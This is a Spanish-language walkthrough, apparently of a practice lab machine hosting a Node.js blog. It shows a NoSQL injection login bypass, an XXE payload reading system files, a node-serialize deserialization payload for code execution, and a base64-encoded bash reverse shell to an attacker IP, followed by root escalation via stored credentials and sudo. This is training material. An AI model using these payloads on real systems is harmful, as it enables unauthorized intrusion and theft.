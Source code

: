 

# PortScan
__________
```
# Nmap 7.93 scan initiated Mon Nov 20 09:49:30 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.11.139
Nmap scan report for 10.10.11.139
Host is up (0.063s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 09:49:45 2023 -- 1 IP address (1 host up) scanned in 14.89 seconds
```

# Web Site
_______________
![[Pasted image 20231120112841.png]]

Realicé un **FUZZING** web para posibles directorios existentes en la máquina víctima, pero no encontré nada interesante, probé ingresando usuarios default típicos, y ví qué decía cuando un usuario era válido y cuando no, descubriendo así que el usuario "**admin**" existe, pero ninguna contraseña típica funcionó, por lo qué opté por interceptar esto con el Proxy **BurpSuite**.

# Proxy BurpSuite
___

Aquí empecé a probar distintas inyecciones de **DB's** , entre ellas NoSQL's, descubriendo qué era vulnerable a inyecciones **NoSQL**, pero con un body en formato Json y no DATA.

![[Pasted image 20231120113655.png]]

Como conocemos un usuario **válido**, usamos la operativa "**not equal**" para hacer un ByPass de contraseña, logrando así entrar como Admin.

En resumen,  al usuario "**admin**" ser válido, y la contraseña no ser igual a "**test**" **ByPassareamos** ésto porque verdaderamente la contraseña **NO ES IGUAL** a "test." logrando así iniciar sesión y seteandonos una cookie.

![[Pasted image 20231120115202.png]]
Qué por lo que parece es una cookie de sesión URL **encodeada**, y sí vamos a la web nos veríamos logueados.

![[Pasted image 20231120115651.png]]


Vemos qué podemos subir archivo, así que intentamos subir un archivo cualquiera, por ejemplo un .txt a ver qué pasa...
![[Pasted image 20231120120049.png]]

Debemos subir un archivo en formato **.XML**, así qué se me ocurre ver si podemos tratar de llevar a cabo un **XXE** con una entidad maliciosa para leer el "**/etc/passwd**".

**PoC .xml:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 
 <post>
   <title>Example Post</title>
   <description>Example Description</description>
   <markdown>&xxe;</markdown>
 </post>
```

Una vez subido, vemos qué logramos leer el "**passwd**" gracias al **XXE**.

![[Pasted image 20231120120634.png]]

Y también descubrimos que el usuario "**admin**" es un usuario válido del sistema.

Traté de leer sí existía la **"id_rsa"** de SSH, pero no encontré nada, pero curiosamente al enviar un cuerpo corrompido al servidor como solicitud de logueo, nos devolvería rutas existente como error.

![[Pasted image 20231120121359.png]]

Nos reportaría rutas, lo qué me da a entender que son rutas donde está alojado el servidor, por ende veo varios **"/opt/blog"**, así que modifico mi **XXE** para leer del "**/opt/blog/server.js**" logrando así ver el código fuente.

![[Pasted image 20231120121703.png]]

Nos chiva el código fuente qué por detrás **deserializa** la cookie **serializada**, para interpretarla, por lo qué se me ocurre de primer poner una cookie serializada maliciosa, qué a la hora de deserializarse por detrás haga lo qué me interese, investigando encontré qué podemos llevar a cabo en estas situaciones un **IIFE**.

**IIFE:** no es más qué mediante dos paréntesis colocado de forma específica en el código, ejecute ese comando colocado en los paréntesis antes de deserializar en éste caso la cookie.

[((Artículo sobre IIFE y como podemos explotar deserialización y serialización en Node JS))](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

**PoC** Payload para llevar a cabo el "**RCE**" mediante el **"IFFE"**:
```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('cmd',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Como vimos al principio, la cookie está **urlencodeada**, así qué este payload lo urlencodeamos para ponerlo como cookie en nuestro navegador, y a continuación estaré probando si logramos llevar a cabo la **RCE** seteando una cookie qué intente obtener un recurso desde la máquina víctima a mi máquina con "wget".
![[Pasted image 20231120124717.png]]
![[Pasted image 20231120124740.png]]

Por ende, estamos llevando a cabo el **RCE** éxitosamente, así que procederé a entablarme una **Reverse Shell** con el payload en base64.
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS80NDMgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Convertirmos en **URLENCODE**, seteamos eso como cookie de sesión, y al recargar obtendríamos nuestra **Reverse Shell**.
![[Pasted image 20231120125050.png]]

Ya quedaría darle Tratamiento a la TTY, que sino sabes como te recomiendo [((LEER ÉSTE POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios
___
Sí vemos los puertos abiertos, veremos puertos qué de manera externa no teníamos acceso.
![[Pasted image 20231120125343.png]]

Y sí indagamos en internet, veríamos que este puerto suele ser el de **MongoDB** por defecto, así que intentamos entrar...
```bash
mongo
```

Logrando así conectarnos con la DB, ahora deberíamos listar DB's que nos interesen con contenido de sus tablas, columnas...

![[Pasted image 20231120125522.png]]

Encontrando así las credenciales del usuario actual, para posterior ver sus permisos SUDOERS.

```bash
sudo -l
```

![[Pasted image 20231120125604.png]]

Viendo que podemos ejecutar lo que sea, es decir podemos convertirnos en Root con:
```bash
sudo su
```

![[Pasted image 20231120125651.png]]